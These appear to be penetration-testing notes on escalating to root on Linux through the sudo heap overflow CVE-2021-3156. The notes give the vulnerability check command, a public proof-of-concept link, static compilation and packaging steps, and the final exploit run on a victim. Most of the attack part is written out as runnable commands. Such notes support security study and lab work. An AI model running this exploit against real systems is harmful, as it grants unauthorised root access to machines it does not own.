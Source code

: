 
### Overview
---
While much less common, this method can still occasionally offer an avenue of escalation.  If the ``sudo`` version is old enough, sometimes you can find known overflow vulnerabilities for privilege escalation.


### Exploitation Example
---
- Check sudo version for potential to reference potential known exploits
```shell
sudo -V
searchsploit sudo
```

**Example CVE:**
- CVE-2021-3156: Sudo Heap Overflow Vulnerability
- POC: https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot

The flaw was introduced in July 2011 and affects all legacy versions from 1.8.2 to 1.8.31p2 and all stable versions from 1.9.0 to 1.9.5p1, in their default configuration.

```
sudoedit -s '\' `perl -e 'print "A" x 65536'`
```

**Walkthrough:**
```shell
### On Victim ###

# Check sudo version
sudo -V
...
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
...

# Verify Host is Vulnerable to CVE-2021-3156
sudoedit -s '\' `perl -e 'print "A" x 65536'`
# If you receive a usage or error message, sudo is not vulnerable. 
# If the result is a Segmentation fault, sudo is vulnerable.
```

```shell
### On Attacker ###
git clone https://github.com/r4j0x00/exploits
cd exploits/CVE-2021-3156_one_shot
cat Makefile
```
![[Pasted image 20230528145554.png]]

To avoid dependency issues, we'll need to compile the exploit statically instead of just using the ``Makefile``.

```shell
# Statically compile Exploit and Compress for Trasfer to Victim
gcc -static exploit.c -o exploit
mkdir libnss_X
gcc -g -fPIC -shared sice.c -o libnss_X/X.so.2
tar -czvf exploit.tar.gz exploit libnss_X/
```
![[Pasted image 20230528145904.png]]

Once the exploit is compressed, move the archive to the victim machine in whatever way you want, expand it, and execute it to elevate to ``root``

```shell
### On Victim ###

# Expand archive and exploit
tar -xzvf exploit.tar.gz
./exploit

# You are now root
```
